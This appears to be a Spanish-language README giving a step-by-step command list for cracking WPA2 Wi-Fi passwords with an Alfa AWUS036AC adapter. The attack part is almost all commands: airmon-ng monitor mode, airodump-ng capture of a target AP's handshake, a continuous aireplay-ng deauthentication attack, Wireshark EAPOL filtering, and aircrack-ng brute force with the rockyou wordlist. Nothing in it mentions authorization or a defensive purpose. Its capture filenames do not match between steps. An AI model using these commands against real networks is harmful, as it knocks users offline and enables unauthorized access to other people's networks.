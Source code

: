 # Alfa AWUS036AC
    
   Cracking WPA2


### WiFi Passwords

  ![](Wifi-Hacking.png)
  
## Requisitos

Antes de nada, deberíamos de instalar los drivers necesarios de la antena ya que sin ellos no podremos usar el modo monitor.
En este caso he usado el diccionario Rockyou que viene preinstalado en kali linux.


  ![](Alfa-AWUS036AC.png)



## Comandos Utilizados:
    
   Ver versión del sistema:
        
       cat /etc/os-release
       
       uname -a
   
   Ver interfaces:
   
       iwconfig
   
   Matar procesos:
    
       sudo airmon-ng check kill

   Iniciar modo monitor:
   
       sudo airmon-ng start wlan0
       
   Verificar que modo está en uso:
   
       sudo airmon-ng
       iwconfig
   
   Obtener dirección MAC y el canal del AP:
   
       sudo airodump-ng wlan0
       sudo airodump-ng -w hack1 -c 2 --bssid 00:00:00:00:00:00 wlan0 
    
   2nd Window - deauth attack:
   
       sudo aireplay-ng --deauth 0 -a 00:00:00:00:00:00 wlan0
   
   Abrir Wireshark para analizar el archivo capturado:
   
       wireshark hack1-01.cap
   
   Filtro de mensajes usado en wireshark:
   
       eapol
   
   Stop modo monitor:
   
       airmon-ng stop wlan0

   Cambiar canal:
   
       sudo airmon-ng wlan0 channel X

   Fuerza bruta:
   
       sudo aircrack-ng capture1-01.cap -w /usr/share/wordlists/rockyou.txt


# How To

![](Imagen1.png)

